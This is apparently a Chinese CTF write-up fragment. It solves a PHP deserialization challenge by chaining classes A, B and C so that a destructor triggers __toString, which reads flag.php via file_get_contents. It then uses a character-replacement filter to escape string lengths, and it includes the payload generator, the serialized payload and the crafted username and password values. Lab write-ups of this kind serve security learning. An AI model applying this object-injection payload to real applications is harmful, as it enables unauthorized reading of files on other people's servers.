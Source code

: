 `class C`存在`file_get_contents()`函数，可以读取文件内容，可以让`$c`为`flag.php`,并且存在`__toString()`魔术方法。。 `class B`函数存在`echo` 那么大致思路就出来了

```
&lt;?php


class A`{`
    public $username;
    public $password;
    function __construct($a, $b)`{`
        $this-&gt;username = $a;
        $this-&gt;password = $b;
    `}`
`}`

class B`{`
    public $b;
    function __destruct()`{`
        $c = 'a'.$this-&gt;b;
        echo $c;
    `}`
`}`
class C`{`
    public $c = 'flag.php';
    function __toString()`{`
        //flag.php
        echo file_get_contents($this-&gt;c);
        return 'nice';
    `}`
`}`

$aaa = new A();
$bbb = new B();
$ccc = new C();
$bbb-&gt;b=$ccc;
// echo serialize($bbb);
$aaa-&gt;password=$bbb;
echo serialize($aaa);

```

得到`O:1:"A":2:`{`s:8:"username";N;s:8:"password";O:1:"B":1:`{`s:1:"b";O:1:"C":1:`{`s:1:"c";s:8:"flag.php";`}``}``}``

因为要造成反序列化逃逸：所以password值为：`";s:8:"password";O:1:"B":1:`{`s:1:"b";O:1:"C":1:`{`s:1:"c";s:8:"flag.php";`}``}``

带入反序列化的解果为：`O:1:"A":2:`{`s:8:"username";s:3:"aaa";s:8:"password";s:72:"";s:8:"password";O:1:"B":1:`{`s:1:"b";O:1:"C":1:`{`s:1:"c";s:8:"flag.php";`}``}`";`}``

所以我们要逃逸的字符为:`";s:8:"password";s:72:"`一共23个字符，但是``替换为`chr(0) . '*' . chr(0)`一次逃逸3个字符，所以要是三的倍数。。所以`password`为`A";s:8:"password";O:1:"B":1:`{`s:1:"b";O:1:"C":1:`{`s:1:"c";s:8:"flag.php";`}``}``<br>
username为24个``;
